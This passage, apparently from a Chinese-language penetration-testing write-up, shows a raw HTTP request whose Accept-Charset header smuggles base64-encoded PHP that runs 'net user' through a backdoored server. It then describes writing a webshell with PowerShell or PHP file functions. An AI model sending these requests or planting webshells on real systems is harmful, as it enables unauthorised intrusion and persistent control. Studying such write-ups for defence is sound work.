 ```php
GET /phpinfo.php HTTP/1.1

Host: 172.31.40.136:8080

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

X-Forwarded-For: 172.31.40.136

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip,deflate

Accept-Charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7

Connection: close

Upgrade-Insecure-Requests: 1
```

![图片.png](assets/1698900845-488f34d6af5a750a4d4765edc11d4e2d.png)

此时能够执行命令，又知道 web 绝对路径，利用命令执行写入 webshell，这里用的是 powershell 命令写入，更简便的方法是利用 PHP 写文件函数写入：

![图片.png](assets/1698900845-ee4225f9f48c2ed1235d5660ce63af01.png)
